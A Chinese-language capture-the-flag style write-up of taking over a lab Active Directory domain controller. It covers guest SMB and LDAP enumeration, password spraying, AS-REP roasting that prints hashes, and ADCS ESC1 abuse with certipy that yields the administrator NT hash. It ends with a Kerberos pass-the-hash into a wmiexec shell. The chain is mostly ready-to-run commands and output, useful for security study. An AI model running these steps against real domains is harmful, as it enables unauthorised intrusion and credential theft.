| AwEAAaMkMCIwEwYDVR0lBAwwCgYIKwYBBQUHAwEwCwYDVR0PBAQDAgQwMA0GCSqG
| SIb3DQEBCwUAA4IBAQBPUjKZMKVtG4o+9F4CK13pk4uz5YS5NwnwRY5VYs6oNp1+
| T5X44KatEgfmW46ZddNh0JpyrUS8odCQTi8TDD2y65WrmiH/+aYAUXZVqY9z2iau
| cGCfKggez7gcvaDDvDLpE42nevCeFBGE6FX+vvYYIQSKvHpovrA4/YYm40ra8bmI
| SJFVnYipveips+lg6yKXIkcbiZ4BR8aSRDvpFGQntMhoBdWRTQJj2kLLmUvChcsZ
| 67E+551f/mn+L6m0+V7Ibxtbgtn+2tMhLkIYUhv+ZKYoAKIUnqNZQK5TuXDHFAe2
| rsLETnehzi/9/n64wkXQB2pJkXlYcEgBKRz4kF41
|_-----END CERTIFICATE-----
|_ssl-date: 2026-09-08T11:09:31+00:00; -1s from scanner time.
7680/tcp  closed pando-pub     reset ttl 128
9389/tcp  open   mc-nmf        syn-ack ttl 128 .NET Message Framing
47001/tcp open   http          syn-ack ttl 128 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open   msrpc         syn-ack ttl 128 Microsoft Windows RPC
49665/tcp open   msrpc         syn-ack ttl 128 Microsoft Windows RPC
49666/tcp open   msrpc         syn-ack ttl 128 Microsoft Windows RPC
49668/tcp open   msrpc         syn-ack ttl 128 Microsoft Windows RPC
49669/tcp open   ncacn_http    syn-ack ttl 128 Microsoft Windows RPC over HTTP 1.0
49670/tcp open   msrpc         syn-ack ttl 128 Microsoft Windows RPC
49671/tcp open   msrpc         syn-ack ttl 128 Microsoft Windows RPC
49675/tcp open   msrpc         syn-ack ttl 128 Microsoft Windows RPC
49676/tcp open   msrpc         syn-ack ttl 128 Microsoft Windows RPC
49679/tcp open   msrpc         syn-ack ttl 128 Microsoft Windows RPC
49711/tcp open   msrpc         syn-ack ttl 128 Microsoft Windows RPC
49716/tcp open   msrpc         syn-ack ttl 128 Microsoft Windows RPC
49719/tcp open   msrpc         syn-ack ttl 128 Microsoft Windows RPC
Service Info: Host: LABYRINTH; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 33713/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 53510/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 54065/udp): CLEAN (Timeout)
|   Check 4 (port 16793/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb2-time: 
|   date: 2026-09-08T11:09:23
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

标准的 DC, ttl 均为 `128`, windows 默认一跳. 域名: `labyrinth.thm.local`
值得注意的是该机器没有开放 winrm, 而是开放了 `3389/rdp`. RDP 仅接受密码, 不接受 ntlm.

## smb
没有提供凭据, 尝试 guest 认证, 成功, 可以读取 `IPC$`, 即可以通过 SMB 访问 RPC
```sh
nxc smb thm.local -u guest -p '' --shares
SMB         10.66.139.100   445    LABYRINTH        [*] Windows 10 / Server 2019 Build 17763 x64 (name:LABYRINTH) (domain:thm.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.66.139.100   445    LABYRINTH        [+] thm.local\guest: 
SMB         10.66.139.100   445    LABYRINTH        [*] Enumerated shares
SMB         10.66.139.100   445    LABYRINTH        Share           Permissions     Remark
SMB         10.66.139.100   445    LABYRINTH        -----           -----------     ------
SMB         10.66.139.100   445    LABYRINTH        ADMIN$                          Remote Admin
SMB         10.66.139.100   445    LABYRINTH        C$                              Default share
SMB         10.66.139.100   445    LABYRINTH        IPC$            READ            Remote IPC
SMB         10.66.139.100   445    LABYRINTH        NETLOGON                        Logon server share 
SMB         10.66.139.100   445    LABYRINTH        SYSVOL                          Logon server share 
```

WINDOWS SERVER 2019, 比较老的机器

### rid brute
爆破出很多用户,截取少部分:
```
Administrator
Guest
krbtgt
Domain
Protected
LABYRINTH$
greg
SHANA_FITZGERALD
CAREY_FIELDS
DWAYNE_NGUYEN
BRANDON_PITTMAN
BRET_DONALDSON
VAUGHN_MARTIN
DICK_REEVES
EVELYN_NEWMAN
SHERI_DYER
NUMBERS_BARRETT
SUSANA_LOWERY
MIKE_TODD
JOSEF_MONROE
DAWN_DAVID
VIVIAN_VELAZQUEZ
WESLEY_FULLER
MARISOL_LANG
DIONNE_MCCOY
NOEL_BOOTH
TAMRA_BULLOCK
ROLAND_COLE
KATHY_WYNN
LORENA_BENSON
```

## ldap
尝试 ldap 空绑定, 成功:
```sh
ldapsearch -x -H ldap://10.66.139.100 -s base
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: ALL
#
#
dn:
domainFunctionality: 7
forestFunctionality: 7
domainControllerFunctionality: 7
rootDomainNamingContext: DC=thm,DC=local
ldapServiceName: thm.local:labyrinth$@THM.LOCAL
...
subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=thm,DC=local
serverName: CN=LABYRINTH,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Con
 figuration,DC=thm,DC=local
schemaNamingContext: CN=Schema,CN=Configuration,DC=thm,DC=local
namingContexts: DC=thm,DC=local
namingContexts: CN=Configuration,DC=thm,DC=local
namingContexts: CN=Schema,CN=Configuration,DC=thm,DC=local
namingContexts: DC=DomainDnsZones,DC=thm,DC=local
namingContexts: DC=ForestDnsZones,DC=thm,DC=local
isSynchronized: TRUE
highestCommittedUSN: 163924
dsServiceName: CN=NTDS Settings,CN=LABYRINTH,CN=Servers,CN=Default-First-Site-
 Name,CN=Sites,CN=Configuration,DC=thm,DC=local
dnsHostName: labyrinth.thm.local
defaultNamingContext: DC=thm,DC=local
currentTime: 20260908112616.0Z
configurationNamingContext: CN=Configuration,DC=thm,DC=local
```

枚举一下用户信息, 它是真多啊 .. 直接看 description 了
```sh
ldapsearch -x -H ldap://10.66.139.100 -b 'DC=thm,DC=local' "(objectClass=user)" > ldap
# wc -l ./ldap -> 17879 ./ldap
cat ldap |grep desc|grep -v 'description: Tier 1 User'
description: Please change it: CHANGEME2023!
description: Please change it: CHANGEME2023!
```

其指出有一个密码候选项: `CHANGEME2023!`
### pass spray
有很多用户, 尝试一下密码喷洒:
```sh
nxc smb thm.local  -u ./users -p 'CHANGEME2023!' --continue-on-success|tee -a ./nxc
cat nxc |grep +
SMB                      10.66.139.100   445    LABYRINTH        [+] thm.local\Domain:CHANGEME2023! (Guest)
SMB                      10.66.139.100   445    LABYRINTH        [+] thm.local\Protected:CHANGEME2023! (Guest)
SMB                      10.66.139.100   445    LABYRINTH        [+] thm.local\IVY_WILLIS:CHANGEME2023! 
SMB                      10.66.139.100   445    LABYRINTH        [+] thm.local\SUSANNA_MCKNIGHT:CHANGEME2023!
```

除去降级为 guest 的, 共两个用户: IVY_WILLIS, SUSANNA_MCKNIGHT

# Web

80 和 443 都是默认页面, 不过 443 上的自签名 SSL 证书给出了一些线索:
```
443/tcp   open   ssl/http      syn-ack ttl 128 Microsoft IIS httpd 10.0
|_ssl-date: 2026-09-08T11:09:31+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=thm-LABYRINTH-CA/domainComponent=thm
| Issuer: commonName=thm-LABYRINTH-CA/domainComponent=thm
```
:::note
即当前域环境存在 ADCS
:::
# roasting
在有凭据后进行两种 roasting 会快很多, 可以直接查 ldap

## asreproasting
```sh
nxc ldap thm.local  -u 'IVY_WILLIS' -p 'CHANGEME2023!' --asreproast out.asrep
LDAP        10.66.139.100   389    LABYRINTH        [*] Windows 10 / Server 2019 Build 17763 (name:LABYRINTH) (domain:thm.local) (signing:None) (channel binding:Never) 
LDAP        10.66.139.100   389    LABYRINTH        [+] thm.local\IVY_WILLIS:CHANGEME2023! 
LDAP        10.66.139.100   389    LABYRINTH        [*] Total of records returned 5
LDAP        10.66.139.100   389    LABYRINTH        $krb5asrep$23$SHELLEY_BEARD@THM.LOCAL:de3f914abbaf8697da492b3f37c63d86$09c7c2e8229e0b41fc0dfe76062cbaa3b5dbe6694fbf3c685825ebfb76d1b1e5b4bc0a1cb39c045b2d55e93dc180878cd7b506970640f8d4793537e464238008e25112c3b74b87fb17913c27cc950d84cd9c2c7374aea25431cc8e4e103cb6c90ee61e76d32ea00470bc5113f7fdb3af82be464e6b1ae8ef5d9b11ce6950ac54dfceae979c5eb31bbe2819eede8a645f732694e008ff8822b9feaac71534c6277b1cf49f48a28114bab5c60b74cb63516a04ddf7e25f65ff97bc272659e644664888ece8512cd9cd84fa9b14c88fa952939efab3be73ec5904e9bb95e652b95870aa71cf34c9
LDAP        10.66.139.100   389    LABYRINTH        $krb5asrep$23$ISIAH_WALKER@THM.LOCAL:5d13e7649c3f144f68008a7775cd5f75$5f3b1189170b6da8b1e7c7d0f7f44f6af94ef0de4ba7c1ad3fc4f292a323117da8f14e5f87017d752e4e39677d460c24ac0456345295c2b0c54d84cf93c3717e401b6e06146ad2eaca7d03d7356b9c1ad28f7ee2a1c82e81f3e10258378d2f3e3275ff3fa27602933e3ee929ee2a5a081553b2fa48cefccb6af6c4599dc348ea4e2cecc1df5417dab3c1cf9979a1374f89bc0dc78101a3c3a355d637220c56a7bd98426d5bda1e676d85bf3701ae85b0834f896332022594a6f201953c1ddea499fff33e67054468e584bf097d0a15a9f80336e9cb7a3560ef249d8785536c3367253c789319
LDAP        10.66.139.100   389    LABYRINTH        $krb5asrep$23$QUEEN_GARNER@THM.LOCAL:722cd091a04b38c31b11ae6053c6847d$edd0e4c7800adfd3ff91774af7f908b6cf5900b229cfa6e34350c72c9b1acb0b0d3e885f5817de2e7cc2cb35e2764e95449b954217bef7071e0c91baef0fda36259d183c8c5a5a67d6d54f62a69440c1685021d417673522861d3ef323fc8986ac6ad8f873254b3f8a764c3ee336b1af52a14b36309d1fe68347b1262e84bf1378258eab251703af17885d8e763a5a223fa567459553f4acaf3e2ad75f5ddc5e1ad671ca5b91ca9209d3f5d2a25c66cda72b8cabdd354ed740c5ce2de13f184f50f20b74c53c20a4ce73a324720c6f81366def5010aae49df2a6ebe29eae73cc78bccf1d4971
LDAP        10.66.139.100   389    LABYRINTH        $krb5asrep$23$PHYLLIS_MCCOY@THM.LOCAL:2670e45cfe7f49fa85cf49c954c9d5d1$b93e6fe87a91a4e06c4e847270c734c65ae9729f1b097d7b68925220041d7d783f6e444b3a074b7b762ae7d68c44df3b3d0ae4610ac8d55751d52f6fe02e5cfe5f2ab0e67837dcd0fe9ae0c16b77f62822804b9669c254db88644ffeebba8e8c5a89e27ab514dfb4410f283055728a33265b919af38368df07088d409ba2ad80249b43470caf23ea8bf86e1da79a3166ca0f50a69f21d5c1308358fb756e034447d1243f6094e047e873e465fae7f97fc3ab52e3fb12d490d1e5447d41979318d6ea6a9e2e39c7683f988d5f319e213d9a6c959dce6cbd731c7dd757467ff467054255782505
LDAP        10.66.139.100   389    LABYRINTH        $krb5asrep$23$MAXINE_FREEMAN@THM.LOCAL:e96206582ff4ad6dbcad5db700ca0925$ee9b4581d9808fda21fd334f11d685f2d99d9f71447e9b2f24c74435845c1227076ebdfab8c6b580b4a526eb6e15c885ab67559fa927cef7ae93298eb12613f8913975884b24985eb70a6bce8a0d7d0d926db8f906d08f719022f56c8490430480abe06e1615ece988e75eb7402320a76086b187fcd8718912a172f31663fd070f386f653d9d1e2ad8d1e5d985f11409771572cbc6e77abea068b334af8e9c0a3d0d81a007197f55967435d55026a4b0b5391a59230fe91c75612741a679a9431a7448c032670c8479001456076a8acedb583522663881a567a45bee1b3e16633a813fc7b160
```
没有 hash 可以破解

## kerberoastng
```sh
nxc ldap thm.local  -u 'IVY_WILLIS' -p 'CHANGEME2023!' --kerberoasting kb
LDAP        10.66.139.100   389    LABYRINTH        [*] Windows 10 / Server 2019 Build 17763 (name:LABYRINTH) (domain:thm.local) (signing:None) (channel binding:Never) 
LDAP        10.66.139.100   389    LABYRINTH        [+] thm.local\IVY_WILLIS:CHANGEME2023! 
LDAP        10.66.139.100   389    LABYRINTH        [*] Skipping disabled account: krbtgt
LDAP        10.66.139.100   389    LABYRINTH        [*] Total of records returned 0
```

没有可以 kerberoasting 的服务账户

# act as IVY_WILLIS
## perm analyse
我是在 attackbox 上打的 THM 机器, 上面的 bloodhound 和采集器都有些问题, 用 bloodyad 替代\
```sh
bloodyAD -d thm.local -u 'IVY_WILLIS' -p 'CHANGEME2023!' --dc-ip 10.66.160.191 --host thm.local  get  membership IVY_WILLIS

distinguishedName: CN=Users,CN=Builtin,DC=thm,DC=local
objectSid: S-1-5-32-545
sAMAccountName: Users

distinguishedName: CN=Remote Management Users,CN=Builtin,DC=thm,DC=local
objectSid: S-1-5-32-580
sAMAccountName: Remote Management Users

distinguishedName: CN=Domain Users,CN=Users,DC=thm,DC=local
objectSid: S-1-5-21-1966530601-3185510712-10604624-513
sAMAccountName: Domain Users
# --------
bloodyAD -d thm.local -u 'IVY_WILLIS' -p 'CHANGEME2023!' --dc-ip 10.66.160.191 --host thm.local  get membership SUSANNA_MCKNIGHT

distinguishedName: CN=Users,CN=Builtin,DC=thm,DC=local
objectSid: S-1-5-32-545
sAMAccountName: Users

distinguishedName: CN=Remote Desktop Users,CN=Builtin,DC=thm,DC=local
objectSid: S-1-5-32-555
sAMAccountName: Remote Desktop Users

distinguishedName: CN=Remote Management Users,CN=Builtin,DC=thm,DC=local
objectSid: S-1-5-32-580
sAMAccountName: Remote Management Users

distinguishedName: CN=Domain Users,CN=Users,DC=thm,DC=local
objectSid: S-1-5-21-1966530601-3185510712-10604624-513
sAMAccountName: Domain Users
```
IVY_WILLIS 和 SUSANNA_MCKNIGHT 都属于 `Remote Management Users` 组, 但仅有 SUSANNA_MCKNIGHT 属于 `Remote Desktop Users` 组

# RDP as SUSANNA_MCKNIGHT
```sh
xfreerdp /v:10.66.160.191 /u:SUSANNA_MCKNIGHT /p:CHANGEME2023!
```


有趣的是 SUSANNA_MCKNIGHT 拥有 [certificate service dcom access group](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#certificate-service-dcom-access) 权限, 即可以连接企业CA

# ADCS
```sh
certipy find -dc-ip 10.66.151.14 -u SUSANNA_MCKNIGHT -p 'CHANGEME2023!' -json -enabled -vulnerable
```
这会返回所有的启用的并且有可利用漏洞的证书模版, 如果没有结果再设置全部返回
```json
{
  "Certificate Authorities": {
    "0": {
      "CA Name": "thm-LABYRINTH-CA",
      "DNS Name": "labyrinth.thm.local",
      "Certificate Subject": "CN=thm-LABYRINTH-CA, DC=thm, DC=local",
      "Certificate Serial Number": "5225C02DD750EDB340E984BC75F09029",
      "Certificate Validity Start": "2023-05-12 07:26:00+00:00",
      "Certificate Validity End": "2028-05-12 07:35:59+00:00",
      "Web Enrollment": {
        "http": {
          "enabled": false
        },
        "https": {
          "enabled": false,
          "channel_binding": null
        }
      },
      "User Specified SAN": "Disabled",
      "Request Disposition": "Issue",
      "Enforce Encryption for Requests": "Enabled",
      "Active Policy": "CertificateAuthority_MicrosoftDefault.Policy",
      "Permissions": {
        "Owner": "THM.LOCAL\\Administrators",
        "Access Rights": {
          "1": [
            "THM.LOCAL\\Administrators",
            "THM.LOCAL\\Domain Admins",
            "THM.LOCAL\\Enterprise Admins"
          ],
          "2": [
            "THM.LOCAL\\Administrators",
            "THM.LOCAL\\Domain Admins",
            "THM.LOCAL\\Enterprise Admins"
          ],
          "512": [
            "THM.LOCAL\\Authenticated Users"
          ]
        }
      }
    }
  },
  "Certificate Templates": {
    "0": {
      "Template Name": "ServerAuth",
      "Display Name": "ServerAuth",
      "Certificate Authorities": [
        "thm-LABYRINTH-CA"
      ],
      "Enabled": true,
      "Client Authentication": true,
      "Enrollment Agent": false,
      "Any Purpose": false,
      "Enrollee Supplies Subject": true,
      "Certificate Name Flag": [
        1
      ],
      "Extended Key Usage": [
        "Client Authentication",
        "Server Authentication"
      ],
      "Requires Manager Approval": false,
      "Requires Key Archival": false,
      "Authorized Signatures Required": 0,
      "Schema Version": 2,
      "Validity Period": "1 year",
      "Renewal Period": "6 weeks",
      "Minimum RSA Key Length": 2048,
      "Template Created": "2023-05-12 08:55:40+00:00",
      "Template Last Modified": "2023-05-12 08:55:40+00:00",
      "Permissions": {
        "Enrollment Permissions": {
          "Enrollment Rights": [
            "THM.LOCAL\\Domain Admins",
            "THM.LOCAL\\Domain Computers",
            "THM.LOCAL\\Enterprise Admins",
            "THM.LOCAL\\Authenticated Users"
          ]
        },
        "Object Control Permissions": {
          "Owner": "THM.LOCAL\\Administrator",
          "Full Control Principals": [
            "THM.LOCAL\\Domain Admins",
            "THM.LOCAL\\Enterprise Admins"
          ],
          "Write Owner Principals": [
            "THM.LOCAL\\Domain Admins",
            "THM.LOCAL\\Enterprise Admins"
          ],
          "Write Dacl Principals": [
            "THM.LOCAL\\Domain Admins",
            "THM.LOCAL\\Enterprise Admins"
          ],
          "Write Property Enroll": [
            "THM.LOCAL\\Domain Admins",
            "THM.LOCAL\\Domain Computers",
            "THM.LOCAL\\Enterprise Admins"
          ]
        }
      },
      "[+] User Enrollable Principals": [
        "THM.LOCAL\\Domain Computers",
        "THM.LOCAL\\Authenticated Users"
      ],
      "[!] Vulnerabilities": {
        "ESC1": "Enrollee supplies subject and template allows client authentication.",
        "ESC17": "Enrollee supplies subject and template allows server authentication."
      },
      "[*] Remarks": {
        "ESC17": "Other prerequisites may be required for this to be exploitable. See the wiki for more details."
      }
    }
  }
```

一些关于 CA 的信息:
1. name: `thm-LABYRINTH-CA`

对于 ServerAuth 模版:
1. `"Enrollee Supplies Subject": true,`: 启用 `Enrollee Supplies Subject`, 用户可以在 CSRs(证书申请请求) 中使用任何用户的 SAN 进行申请
2. `"THM.LOCAL\\Authenticated Users"`: 容许已验证的用户申请
   
## ESC1 on ServerAuth
先申请证书, 再验证.  ADCS 验证使用 kerberos 协议, 注意时间同步
```sh
certipy req -dc-ip 10.66.151.14 -u SUSANNA_MCKNIGHT -p 'CHANGEME2023!' -ca 'thm-LABYRINTH-CA'  -template 'ServerAuth' -upn 'administrator@thm.local'
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 25
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@thm.local'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'

certipy auth -pfx ./administrator.pfx -dc-ip 10.66.137.208
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@thm.local'
[*] Using principal: 'administrator@thm.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@thm.local': aad3b435b51404eeaad3b435b51404ee:07d677a6cf40925beb80ad6428752322
```

# act as Administrator
```sh
nxc smb thm.local -u administrator -H 07d677a6cf40925beb80ad6428752322 
SMB         10.66.137.208   445    LABYRINTH        [*] Windows 10 / Server 2019 Build 17763 x64 (name:LABYRINTH) (domain:thm.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.66.137.208   445    LABYRINTH        [-] thm.local\administrator:07d677a6cf40925beb80ad6428752322 STATUS_ACCOUNT_RESTRICTION 
```

认证成功, 但授权失败, 原因为 administrator 为 protected 用户, 无法使用 ntlm 进行登陆, 转向 kerberos.
```sh
nxc smb thm.local -u administrator -H 07d677a6cf40925beb80ad6428752322  -k
SMB         thm.local       445    LABYRINTH        [*] Windows 10 / Server 2019 Build 17763 x64 (name:LABYRINTH) (domain:thm.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         thm.local       445    LABYRINTH        [+] thm.local\administrator:07d677a6cf40925beb80ad6428752322 (Pwn3d!)

wmiexec.py -k thm.local/administrator@labyrinth.thm.local -dc-ip 10.66.137.208
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\Users\Administrator\Desktop>whoami
thm\administrator

C:\Users\Administrator\Desktop>whoami /priv
PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State  
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled

C:\Users\Administrator\Desktop>ipconfig
Windows IP Configuration

Ethernet adapter Ethernet 3:
   Connection-specific DNS Suffix  . : ec2.internal
   Link-local IPv6 Address . . . . . : fe80::f8d:8605:a8e5:9e96%4
   IPv4 Address. . . . . . . . . . . : 10.66.137.208
   Subnet Mask . . . . . . . . . . . : 255.255.192.0
   Default Gateway . . . . . . . . . : 10.66.128.1
```


